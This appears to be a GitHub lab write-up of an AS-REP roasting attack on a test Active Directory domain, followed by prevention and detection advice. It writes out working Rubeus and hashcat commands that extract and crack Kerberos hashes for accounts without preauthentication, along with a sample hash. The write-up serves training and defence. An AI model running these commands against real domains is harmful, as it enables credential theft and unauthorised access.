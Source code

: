 # AS-REProasting Lab

## Objective

Perform a AS-REProasting attack on the Windows 10 machine and obtain crackable hashes, find the user account 'svc-iam' then crack password on Kali Linux.
Connect to DC1 and investigate Event Manager to find the attack. 

## What is Kerberoasting

The AS-REProasting attack is similar to the Kerberoasting attack; we can obtain crackable hashes for user accounts that have the property Do not require Kerberos preauthentication enabled. The success of this attack depends on the strength of the user account password that we will crack.

## Skills Learned
- Run a AS-REProasting attack
- Filtering the Windows Event Viewer logs
- Cracking spn.txt files with Hashcat

## Tools Used
- Windows Event Log
- Hashcat
- Rubeus
- Kali Linux

## Attack

First we need to RDP over to our WIN10 machine and perform the AS-REProasting attack. I will be using Rubeus for this attack.

```
xfreerdp /u:(username) /p:(password) /v:(Machine IP) /dynamic-resolution
xfreerdp /u:(username) /p:(password) /v:(Machine IP) /dynamic-resolution /drive:share,/home/XXXXXXX
```

Next we need to open up a command prompt and CD to our downloads folder where the file we need to run in located.

```
cd C:\Users\bob\Downloads
```

```
.\Rubeus.exe asreproast /outfile:asrep.txt
```
![image](https://github.com/Matt4llan/Attack-Defense/assets/156334555/97415255-a4d8-4b43-b6ed-4fd0857a0fae)

To obtain crackable hashes, we can use Rubeus again. However, this time, we will use the asreproast action. If we don't specify a name, Rubeus will extract hashes for each user that has Kerberos preauthentication not required

![image](https://github.com/Matt4llan/Attack-Defense/assets/156334555/f99d943e-91bd-447b-8f93-347f72ebe310)

Now we have our file to crack we need to get this file back over to our Kali box. 

For hashcat to be able to recognize the hash, we need to edit it by adding 23$ after $krb5asrep$ we can edit the file usim Vim on the kali command line. 

```
$krb5asrep$23$anni@eagle.local:1b912b858c4551c0013dbe81ff0f01d7$c64803358a43d05383e9e01374e8f2b2c92f9
```

![image](https://github.com/Matt4llan/Attack-Defense/assets/156334555/962602f8-05a3-455e-b311-ea4664341b78)

We can now run this file trough hashcat

```
sudo hashcat -m 18200 -a 0 asrep.txt /usr/share/wordlists/rockyou.txt --outfile asrepcrack.txt --force
```

![image](https://github.com/Matt4llan/Attack-Defense/assets/156334555/465e6765-7ec9-4287-8cc7-d2c897dc1225)

Once hashcat cracks the password, we can print the contents of the output file to obtain the cleartext password

```
sudo cat asrepcrack.txt
```

![image](https://github.com/Matt4llan/Attack-Defense/assets/156334555/f611dd48-cad7-4cae-9ec0-f8810a76f226)


## Prevention

The success of attacks on users with "Do not require Kerberos preauthentication" depends on password strength. This property should be used only when necessary, and accounts should be reviewed quarterly to ensure it isn't improperly assigned. Regular user accounts with this property often have weaker passwords, making them easier targets than service accounts with SPNs. To protect these users, a separate password policy requiring at least 20 characters should be enforced to prevent cracking attempts.

## Detection

### HoneyPot

A honeypot user is an effective detection tool in AD environments, as any login attempts for this unused account are likely malicious and warrant inspection. However, if it's the only account with "Kerberos Pre-Authentication not required," advanced threat actors might identify it as a honeypot and avoid it. To create an effective honeypot user, ensure the account is old and appears unused, with service account passwords ideally over two years old and regular user passwords less than one year old. The account should have logins after the password change and possess some privileges to make it an attractive target for attackers.

### Investigate

When we executed Rubeus, an Event with ID 4768 was generated, signaling that a Kerberos Authentication ticket was generated

![image](https://github.com/Matt4llan/Attack-Defense/assets/156334555/6a25dc6c-c2b1-421e-9927-d9e29cda4283)

AD generates this event for every Kerberos authentication, resulting in a high volume of logs. However, the source of authentication can be tracked, allowing correlation of known good logins against potential malicious activities. While inspecting specific IP addresses can be challenging, especially if users move between office locations, scrutinizing the specific VLAN and alerting on any deviations can be effective.


